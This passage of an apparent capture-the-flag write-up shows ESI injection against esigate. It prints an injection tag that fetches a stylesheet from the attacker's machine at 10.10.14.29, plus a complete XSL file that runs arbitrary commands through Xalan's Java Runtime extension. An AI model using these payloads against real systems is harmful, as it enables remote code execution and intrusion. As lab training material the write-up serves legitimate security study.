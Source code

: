 Recall that [exploit](https://github.com/esigate/esigate/issues/209) we found earlier? Let's try it out. 

```html
<esi:include src="http://10.10.14.29:8000/test.jpg" />
```

![aad4677a8cebd2ba6fe5c5d916bc9f40.png](/images/htb-quick/66da9fb628ca445cba3e356aad31bb4a.png)

Now to figure out exactly what we can inject into this. Looking around we find [two](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/) [articles](https://www.acunetix.com/blog/articles/the-hidden-dangers-of-xsltprocessor-remote-xsl-injection/) going into the exploit details. 

Let's try to inject the following code, which needs to retrieve an `.xsl` file from our local machine. 

```xml
<!-- INJECTION -->
<esi:include src="http://10.10.14.29:8888/FILENAME.xsl" stylesheet="http://10.10.14.29:8888/FILENAME.xsl"></esi:include>
```

```xml
<!-- XSL FILE -->
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<!-- COMMANDS GO BELOW -->
<xsl:variable name="cmd">
        <![CDATA[
                <!-- insert command here -->
        ]]>
</xsl:variable>
<!-- COMMANDS GO ABOVE -->
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
